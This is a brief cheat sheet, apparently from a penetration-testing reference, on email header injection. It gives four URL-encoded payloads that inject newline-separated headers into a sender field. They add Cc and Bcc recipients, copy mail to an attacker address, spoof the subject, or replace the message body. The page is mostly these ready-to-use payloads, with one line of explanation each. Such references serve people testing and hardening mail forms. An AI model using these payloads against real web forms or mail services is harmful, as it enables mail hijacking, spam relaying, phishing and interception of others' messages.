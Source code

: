 # Email Header Injection

[https://resources.infosecinstitute.com/email-injection/](https://resources.infosecinstitute.com/email-injection/)

## Inject Cc and Bcc after sender argument

```text
From:sender@domain.com%0ACc:recipient@domain.co,%0ABcc:recipient1@domain.com
```

The message will be sent to the recipient and recipient1 accounts.

## Inject argument

```text
From:sender@domain.com%0ATo:attacker@domain.com
```

The message will be sent to the original recipient and the attacker account.

## Inject Subject argument

```text
From:sender@domain.com%0ASubject:This is%20Fake%20Subject
```

The fake subject will be added to the original subject and in some cases will replace it. It depends on the mail service behavior.

## Change the body of the message

Inject a two-line feed, then write your message to change the body of the message.

```text
From:sender@domain.com%0A%0AMy%20New%20%0Fake%20Message.
```

